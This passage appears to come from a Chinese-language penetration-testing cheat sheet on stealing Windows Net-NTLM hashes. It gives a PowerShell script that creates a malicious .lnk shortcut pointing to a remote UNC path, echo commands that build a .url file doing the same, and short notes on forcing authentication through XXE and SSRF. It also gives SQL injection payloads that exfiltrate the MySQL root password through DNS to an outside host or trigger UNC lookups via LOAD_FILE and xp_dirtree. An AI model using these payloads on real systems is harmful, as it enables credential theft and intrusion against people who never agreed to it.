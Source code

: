 ```
```

Powershell
```
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("StealMyHashes.lnk")
$lnk.TargetPath = "\\1.1.1.1\@OsandaMalith"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "I will Steal your Hashes"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

**Internet Shortcuts (.url)**

Windows 中的另一个快捷方式是 Internet 快捷方式，你可以将下面这个存储为 .url 文件：
```
echo [InternetShortcut] > stealMyHashes.url
echo URL=file://192.168.0.1/@OsandaMalith >> stealMyHashes.url
```

### 通过 web 漏洞

- xxe

  在 xxe 里面加载外部文件的时候，如果路径支持 unc 路径的话，是能拿到 net-ntlm hash 的。

  如果不支持 UNC，可再测试 http 协议。

- ssrf

  在 ssrf 里面如果支持 file 协议，并且 file 协议能加载远程资源的话，是能拿到 net-ntlm hash 的。

  当只支持 HTTP 协议的时候，也是可能打回 net-ntlm hash 的。

- XPath Injection
- 远程文件包含
- SQL Injection
  - MySQL
    在 MySQL 注入的话，可以通过带外通信把数据带出来
    ```
    SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.xxx.ceye.io\\abc'));
    ```
    需要具备 loadfile 权限，且没有 securefile_priv 的限制 (5.5.53 默认是空，之后的话默认为 NULL 就不好利用了, 不排除一些管理员会改)

    LOAD_FILE 是支持 UNC 路劲,构造
    ```
    select load_file('\\\\<Kali address>\\mysql');
    ```
  - mssql

    或者配合 mssql
    ```
    xp_dirtree "\\<Kali address>\aaa.com"
    ```
